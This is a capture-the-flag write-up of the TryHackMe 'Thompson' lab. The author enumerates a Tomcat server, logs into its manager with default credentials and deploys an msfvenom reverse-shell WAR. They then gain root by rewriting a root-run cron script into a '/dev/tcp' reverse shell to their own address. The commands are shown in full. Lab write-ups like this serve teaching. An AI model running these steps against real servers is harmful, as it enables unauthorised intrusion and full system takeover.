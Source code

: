# Thompson
**Date:** May 30th 2022

**Author:** j.info

**Link:** [**Thompson**](https://tryhackme.com/room/bsidesgtthompson) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>

![](images/thompson0.png)

<br>

## Objectives
- user.txt
- root.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.2.24`

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/8.5.5
|_http-open-proxy: Proxy might be redirecting requests
```

<br>

### Gobuster Scan

`gobuster dir -u http://10.10.2.24 -t 100 -r -x php,txt,html -w dir-med.txt`

```
/docs                 (Status: 200) [Size: 16585]
/examples             (Status: 200) [Size: 1126] 
/manager              (Status: 401) [Size: 2473]
/RELEASE-NOTES.txt    (Status: 200) [Size: 7063]
```

<br>

## Website Digging

Visiting the main page:

![](images/thompson1.png)

Looking at **/docs** shows us Tomcat documentation. **/examples** shows us Tomcat examples for servlets, JSP, and websockets.

**/manager** is a login page:

![](images/thompson2.png)

Not having any credentials yet I click cancel and am presented with the following screen:

![](images/thompson3.png)

A username and password is listed so I decide to try that on the login page again, and it works. We get the following:

![](images/thompson4.png)

Of particular interest is the fact that we can upload and deploy WAR files! It's possible to create reverse shells using **msfvenom** and have them be in the WAR format. You can [**read more about that here**](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/).

I create our shell like this:

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.6.127.197 LPORT=4444 -f war -o rev-shell.war`

```
Payload size: 1104 bytes
Final size of war file: 1104 bytes
Saved as: rev-shell.war
```

Now that we have that taken care of let's see about getting a shell.

<br>

## System Access

I click the browse button under the WAR file to deploy section and navigate to the file we just created, select it, and then click deploy. After doing so a new item shows up in the applications section right above the deploy box named **/rev-shell**:

![](images/thompson5.png)

I start a listener up on my system and then click the **/rev-shell** which connects back to us:

```
listening on [any] 4444 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.24] 38936
whoami
tomcat
hostname
ubuntu
```

I fix the shell:

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

CTRL + Z to background shell

`stty raw -echo; fg`

`stty -rows 49 -columns 103`

And we have a much nicer shell to work with.

```
tomcat@ubuntu:/$
```

<br>

## System Enumeration

`sudo -l` requires a password so no luck there yet.

The following users have login shells:

```
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:tom,,,:/home/jack:/bin/bash
tomcat:x:1001:1001::/opt/tomcat:/bin/bash
```

Our `id` shows nothing out of the ordinary:

```
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

**Jack** however has additional privileges:

```
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

Checking out **/home** shows us a directory for **jack**. Looking in that gives us our first flag, the **user.txt** file:

`wc -c user.txt`

```
33 user.txt
```

Looking at **cron jobs** with `less /etc/crontab` shows us an interesting looking job running from the jack home directory:

```
# m h dom mon dow user  command
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    cd /home/jack && bash id.sh

```

So it will run it as root. Checking to see if we have write permissions to that file:

```
-rwxrwxrwx 1 jack jack   26 Aug 14  2019 id.sh
```

Looking at the script:

```
#!/bin/bash
id > test.txt
```

<br>

## Root

I modify the shell script to the following:

```
#!/bin/bash
/bin/bash -i >& /dev/tcp/10.6.127.197/5555 0>&1
```

And then setup a listener to catch the connection. After a few seconds we get a shell back as root:

```
listening on [any] 5555 ...
connect to [10.6.127.197] from (UNKNOWN) [10.10.2.24] 44890
bash: cannot set terminal process group (16284): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/home/jack#
```

In the root directory is our last flag, **root.txt**.

`wc -c /root/root.txt`

```
33 /root/root.txt
```

<br>

With that we've completed this CTF!

![](images/thompson6.png)

<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding default **Tomcat credentials** and logging into the **/manager** console with them
- The **/manager** console allows us to deploy new **WAR** files and we create a **reverse shell with msfvenom** and then upload and deploy it to establish an initial foothold on the box
- Finding a **cron job** that executes a shell script in a users home directory as root, and we had the ability to modify the shell script which was done to send a **reverse shell** back to us as **root**

<br>

Many thanks to:
- [**stuxnet**](https://tryhackme.com/p/stuxnet) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)